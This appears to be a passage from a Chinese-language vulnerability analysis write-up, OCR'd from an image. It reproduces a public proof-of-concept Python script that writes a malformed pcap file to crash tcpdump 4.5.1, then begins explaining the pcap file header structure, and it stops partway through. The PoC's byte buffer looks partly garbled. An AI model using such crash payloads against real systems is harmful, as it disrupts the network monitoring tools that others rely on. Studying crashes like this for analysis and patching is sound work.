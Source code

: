 ```
# Exploit Title: tcpdump 4.5.1 Access Violation Crash
# Date: 31st May 2016
# Exploit Author: David Silveiro
# Vendor Homepage: http://www.tcpdump.org
# Software Link: http://www.tcpdump.org/release/tcpdump-4.5.1.tar.gz
# Version: 4.5.1
# Tested on: Ubuntu 14 LTS
from subprocess import call
from shlex import split
from time import sleep

def crash():
    command = 'tcpdump -r crash'
    buffer     =   '\xd4\xc3\xb2\xa1\x02\x00\x04\x00\x00\x00\x00\xf5\xff'
    buffer     +=  '\x00\x00\x00I\x00\x00\x00\xe6\x00\x00\x00\x00\x80\x00'
    buffer     +=  '\x00\x00\x00\x00\x00\x08\x00\x00\x00\x00<\x9c7@\xff\x00'
    buffer     +=  '\x06\xa0r\x7f\x00\x00\x01\x7f\x00\x00\xec\x00\x01\xe0\x1a'
    buffer     +=  "\x00\x17g+++++++\x85\xc9\x03\x00\x00\x00\x10\xa0&\x80\x18\'"
    buffer     +=  "xfe$\x00\x01\x00\x00@\x0c\x04\x02\x08\n', '\x00\x00\x00\x00"
    buffer     +=  '\x00\x00\x00\x00\x01\x03\x03\x04'
    with open('crash', 'w+b') as file:
        file.write(buffer)
    try:
        call(split(command))
        print("Exploit successful!             ")
    except:
        print("Error: Something has gone wrong!")
def main():
    print("Author:   David Silveiro                           ")
    print("   tcpdump version 4.5.1 Access Violation Crash    ")
    sleep(2)
    crash()
if __name__ == "__main__":
    main()
```

## 崩溃分析
### pcap包格式
首先来分析一下pcap包的格式，首先是pcap文件头的内容，在.h有所定义，这里将结构体以及对应变量含义都列出来。
```
struct pcap_file_header {
        bpf_u_int32 magic;
        u_short version_major;
        u_short version_minor;
        bpf_int32 thiszone;     /* gmt to local correction */
        bpf_u_int32 sigfigs;    /* accuracy of timestamps */
        bpf_u_int32 snaplen;    /* max length saved portion of each pkt */
        bpf_u_int32 linktype;   /* data link type (LINKTYPE_*) */
};
```
看一下各字段的含义：
```
 magic：   4字节 pcap文件标识 目前为“d4 c3 b2 a1”
 major：   2字节 主版本号     #define PCAP_VERSION_MAJOR 2
 minor：   2字节 次版本号     #define PCAP_VERSION_MINOR 4
 thiszone：4字节 时区修正     并未使用，目前全为0
 sigfigs： 4字节 精确时间戳   并未使用，目前全为0
 snaplen： 4字节 抓包最大长度 如果要抓全，设为0x0000ffff（65535），
          tcpdump -s 0就是设置这个参数，缺省为68字节
 linktype：4字节 链路类型    一般都是1：ethernet

struct pcap_pkthdr {
```